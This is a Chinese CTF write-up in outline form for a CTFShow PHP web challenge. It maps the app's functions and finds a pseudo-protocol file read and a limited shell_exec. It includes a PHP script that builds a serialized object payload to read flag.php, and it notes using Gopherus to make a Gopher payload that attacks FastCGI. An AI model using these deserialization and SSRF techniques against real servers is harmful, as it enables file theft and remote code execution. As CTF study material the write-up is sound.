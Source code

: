 tags:: CTF/伪协议, CTF/RCE, CTF/PHP/CGI

- Gopher 伪协议 [[CTF/伪协议]]打FastCGI
- # 反序列化
	- 和 [[CTF/WP/CTFShow/web308]]相同
	- if判断
	  id:: 62f26cf6-b9b3-4ba5-84e2-d33a5f32a1aa
		- 无
		  id:: 62f26d4c-0663-4721-bc9f-e2adce779080
	- checkVersion
	  id:: 62f26d07-e020-4ced-8d78-5e245c9a8a05
		- dao
		  id:: 62f26d50-b479-482a-b6a5-89c08030c427
			- fun: checkUpdate: ^^伪协议任意文件读取^^
			  id:: 62f26d5d-8540-4858-aa4e-9ae280c07115
	- addDpt
	  id:: 62f26d0d-3bc7-406a-a971-589573f91a09
		- service
		  id:: 62f26d98-d251-40e2-bc00-4bbcccdaf22a
			- insert_dbt
			  id:: 62f26da0-82b2-4613-a2e6-3166d7b66313
				- dao: 普通SQL，无法注入
				  id:: 62f26da5-2a83-4deb-b066-fb31e536bcc9
	- getAllDbt
	  id:: 62f26d1e-a3b3-451b-bfbe-5033b233f0b0
		- service
		  id:: 62f26db2-34c5-4c97-9a90-6ef81cdf928d
			- get_dpt_all
			  id:: 62f26dc5-059c-42c1-9bd3-fc5bddbd1ebd
				- dao: 普通SQL，无法注入
				  id:: 62f26dd1-3108-47b8-ba9a-4637ade9e12b
	- clearCache
	  id:: 62f26d28-5fce-4e10-8318-0f9191e92c26
		- service: 调用dao: clearCache
		  id:: 62f26d36-3b6c-4504-afbb-d2259dce463a
		- dao: shell_exec，但是只能有数字和换行
		  id:: 62f26e00-a110-4827-b830-8bb0308a9012
- 利用，和web308相同
- ```php
  <?php
  class dao{
  	private $config;
  	private $conn;
  	function set_config($config) {
  		$this -> config = $config;
  	}
  }
  
  class config{
  	private $mysql_username='root';
  	private $mysql_password='';
  	private $mysql_db='sds';
  	private $mysql_port=3306;
  	private $mysql_host='localhost';
  	public $cache_dir = 'cache';
  	public $update_url = 'file:///var/www/html/flag.php';
  }
  
  $c = new config();
  $d = new dao();
  $d -> set_config($c);
  echo urlencode(base64_encode(serialize($d)));
  ?>
  ```
-
- # Gopher打SSTI
- 用Gopherus生成Payload
- 需要一个存在的文件，填写`/var/www/html/index.php`
-
-